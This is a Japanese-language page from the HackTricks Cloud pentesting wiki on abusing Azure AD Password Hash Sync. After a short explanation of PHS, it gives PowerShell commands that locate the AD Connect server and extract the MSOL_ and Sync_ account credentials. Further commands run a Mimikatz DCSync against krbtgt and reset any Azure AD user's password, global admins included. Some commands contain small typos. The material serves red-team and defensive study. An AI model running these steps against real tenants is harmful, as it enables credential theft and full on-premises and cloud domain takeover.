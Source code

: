 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

[ドキュメントから:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **パスワードハッシュの同期**は、ハイブリッドアイデンティティを実現するために使用されるサインイン方法の1つです。 **Azure AD Connect**は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスにユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

これは、企業がオンプレミスのADをAzure ADと同期させるために使用する**最も一般的な方法**です。

すべての**ユーザー**と**パスワードハッシュのハッシュ**がオンプレミスからAzure ADに同期されます。ただし、**平文のパスワード**や**元の** **ハッシュ**はAzure ADに送信されません。\
さらに、**組み込み**のセキュリティグループ（ドメイン管理者など）は**Azure ADに同期されません**。

**ハッシュの同期**は**2分ごと**に行われます。ただし、デフォルトでは、**パスワードの有効期限**と**アカウントの有効期限**は**Azure ADに同期されません**。したがって、**オンプレミスのパスワードが期限切れ**（変更されていない）であるユーザーは、古いパスワードを使用して**Azureリソースにアクセス**し続けることができます。

オンプレミスのユーザーがAzureリソースにアクセスしようとすると、**認証はAzure ADで行われます**。

**PHS**は、**アイデンティティ保護**やAADドメインサービスなどの機能に必要です。

## ピボット

PHSが構成されると、いくつかの**特権アカウント**が自動的に**作成されます**：

* アカウント**`MSOL_<installationID>`**は、オンプレミスADに自動的に作成されます。このアカウントには**ディレクトリ同期アカウント**の役割が与えられています（[ドキュメントを参照](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)）。これは、オンプレミスADで**レプリケーション（DCSync）権限**を持っていることを意味します。
* アカウント**`Sync_<name of on-prem ADConnect Server>_installationID`**がAzure ADに作成されます。このアカウントは、Azure AD内の**任意のユーザー**（同期されたユーザーまたはクラウド専用ユーザー）のパスワードを**リセット**できます。

これらの2つの特権アカウントのパスワードは、**Azure AD ConnectがインストールされているサーバーのSQLサーバーに保存されています**。管理者は、これらの特権ユーザーの平文のパスワードを抽出できます。\
データベースは`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`にあります。

テーブルの1つから構成を抽出することが可能で、その中には暗号化されたものがあります：

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**暗号化された構成**は**DPAPI**で暗号化されており、オンプレミスADの**`MSOL_*`**ユーザーの**パスワード**とAzureADの**Sync\_\***のパスワードを含んでいます。したがって、これらを侵害することでADおよびAzureADへの権限昇格が可能です。

これらの資格情報がどのように保存され、復号化されるかの[完全な概要はこのトークで見つけることができます](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### **Azure AD Connectサーバーの特定**

**Azure AD Connectがインストールされているサーバー**がドメインに参加している場合（ドキュメントで推奨されている）、次の方法で見つけることができます：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\*の悪用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
これらの資格情報を取得するために、[**adconnectdump**](https://github.com/dirkjanm/adconnectdump)を使用することもできます。
{% endhint %}

### Sync\_\*の悪用

**`Sync_*`** アカウントを侵害することで、任意のユーザー（グローバル管理者を含む）の**パスワードをリセット**することが可能です。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
クラウドユーザーの**パスワードのみを変更する**ことも可能です（予期しない場合でも）。
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です。

{% hint style="danger" %}
別のオプションは、**サービスプリンシパルに特権のある権限を割り当てる**ことで、**Sync**ユーザーが**権限**を持っているため、その**サービスプリンシパルにアクセスする**ことで特権昇格を行うことです。
{% endhint %}

### シームレスSSO

PHSを使用してシームレスSSOを利用することが可能で、他の悪用に対して脆弱です。詳細は以下を確認してください：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
